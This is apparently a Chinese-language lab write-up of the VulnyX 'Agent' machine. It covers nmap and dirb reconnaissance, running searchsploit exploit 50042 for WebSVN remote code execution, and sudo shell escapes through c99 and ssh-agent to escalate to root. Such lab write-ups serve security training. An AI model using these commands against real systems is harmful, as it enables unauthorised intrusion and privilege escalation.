# 环境

来自[Agent](https://vulnyx.com/#Agent)，利用已知websvn漏洞拿shell

# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```



## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.34
```



## 目录扫描

```bash
dirb http://192.168.88.34
```



访问80，是一个Nginx是测试页面

```bash
whatweb http://192.168.88.34/websvn
```



# web渗透

## 利用已知漏洞

```
searchsploit websvn
searchsploit -m 50042
```



有一个远程代码执行，下载漏洞脚本，查看和编辑



```bash
python 50042.py http://192.168.88.34/websvn
```



## 提取

sudo看一下有什么权限



可以看到dustin免密执行[c99](https://gtfobins.github.io/gtfobins/c99/)提权

```bash
sudo -u dustin /usr/bin/c99 -wrapper /bin/sh,-s .
```



拿下dustin用户，再看一下sudo



[ssh-agent](https://gtfobins.github.io/gtfobins/ssh-agent/)提权

```bash
sudo /usr/bin/ssh-agent /bin/bash
```

